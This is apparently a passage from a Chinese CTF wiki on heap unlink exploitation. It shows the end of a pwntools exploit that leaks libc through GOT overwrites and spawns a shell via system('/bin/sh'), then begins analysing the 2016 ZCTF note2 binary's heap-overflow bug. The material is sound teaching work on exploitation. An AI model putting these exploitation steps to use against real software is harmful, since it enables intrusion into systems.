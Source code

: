 ```python
    edit(2, len(payload), payload)

    # edit free@got to puts@plt
    payload = p64(stkof.plt['puts'])
    edit(0, len(payload), payload)

    # free global[1] to leak puts addr
    free(1)
    puts_addr = p.recvuntil('\nOK\n', drop=True).ljust(8, '\x00')
    puts_addr = u64(puts_addr)
    log.success('puts addr: ' + hex(puts_addr))
    libc_base = puts_addr - libc.symbols['puts']
    binsh_addr = libc_base + next(libc.search('/bin/sh'))
    system_addr = libc_base + libc.symbols['system']
    log.success('libc base: ' + hex(libc_base))
    log.success('/bin/sh addr: ' + hex(binsh_addr))
    log.success('system addr: ' + hex(system_addr))

    # modify atoi@got to system addr
    payload = p64(system_addr)
    edit(2, len(payload), payload)
    p.send(p64(binsh_addr))
    p.interactive()


if __name__ == "__main__":
    exp()
```

## 2016 ZCTF note2
[题目链接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/heap/unlink/2016_zctf_note2)

### 分析程序

首先，我们先分析一下程序，可以看出程序的主要功能为

- 添加note，size限制为0x80，size会被记录，note指针会被记录。
- 展示note内容。
- 编辑note内容，其中包括覆盖已有的note，在已有的note后面添加内容。
- 释放note。

仔细分析后，可以发现程序有以下几个问题

1. 在添加note时，程序会记录note对应的大小，该大小会用于控制读取note的内容，但是读取的循环变量i是无符号变量，所以比较时都会转换为无符号变量，那么当我们输入size为0时，glibc根据其规定，会分配0x20个字节，但是程序读取的内容却并不受到限制，故而会产生堆溢出。
2. 程序在每次编辑note时，都会申请0xa0大小的内存，但是在 free 之后并没有设置为NULL。

第一个问题对应在ida中的代码如下

```c
unsigned __int64 __fastcall ReadLenChar(__int64 a1, __int64 a2, char a3)
{
  char v4; // [sp+Ch] [bp-34h]@1
  char buf; // [sp+2Fh] [bp-11h]@2
  unsigned __int64 i; // [sp+30h] [bp-10h]@1
  __int64 v7; // [sp+38h] [bp-8h]@2

  v4 = a3;
  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == v4 )
      break;
```
